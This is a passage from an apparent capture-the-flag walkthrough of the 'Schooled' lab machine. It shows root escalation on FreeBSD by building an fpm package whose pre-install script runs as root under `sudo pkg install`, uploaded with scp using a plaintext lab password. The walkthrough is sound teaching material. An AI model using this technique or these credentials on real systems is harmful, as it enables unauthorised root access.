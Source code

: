 `sudo su` will provide a root shell:

```

jamie@Schooled:~ $ sudo su
root@Schooled:/usr/home/jamie #

```

And `root.txt`:

```

root@Schooled:~ # cat root.txt
e65bc368************************

```

### Alternative GTFOBins

When Schooled released, I don’t believe `pkg` was on GTFOBins, but it is [now](https://gtfobins.github.io/gtfobins/pkg/). It uses `fpm` to generate a dummy package. [fpm](https://github.com/jordansissel/fpm) is a tool for building packages for various OSes. That binary isn’t on Schooled:

```

jamie@Schooled:/tmp $ which fpm
jamie@Schooled:/tmp $ find / -name fpm -type f 2>/dev/null

```

I’ll install it on my VM with `sudo gem i fpm -f`, and build that package there with the commands from GTFOBins, which results in a `txz` file in the current directory:

```

oxdf@parrot$ TF=$(mktemp -d)
oxdf@parrot$ echo 'id' > $TF/x.sh
oxdf@parrot$ fpm -n x -s dir -t freebsd -a all --before-install $TF/x.sh $TF
Created package {:path=>"x-1.0.txz"}
oxdf@parrot$ file x-1.0.txz
x-1.0.txz: XZ compressed data

```

I’ll use `scp` to upload that to Schooled:

```

oxdf@parrot$ sshpass -p '!QAZ2wsx' scp x-1.0.txz jamie@10.10.10.234:/tmp/

```

And from Schooled run the command given:

```

jamie@Schooled:/tmp $ sudo pkg install -y --no-repo-update ./x-1.0.txz 
pkg: Repository FreeBSD has a wrong packagesite, need to re-create database
pkg: Repository FreeBSD cannot be opened. 'pkg update' required
Checking integrity... done (0 conflicting)
The following 1 package(s) will be affected (of 0 checked):

New packages to be INSTALLED:                               
        x: 1.0                                              

Number of packages to be installed: 1       
[1/1] Installing x-1.0...
uid=0(root) gid=0(wheel) groups=0(wheel),5(operator)
Extracting x-1.0:   0%
```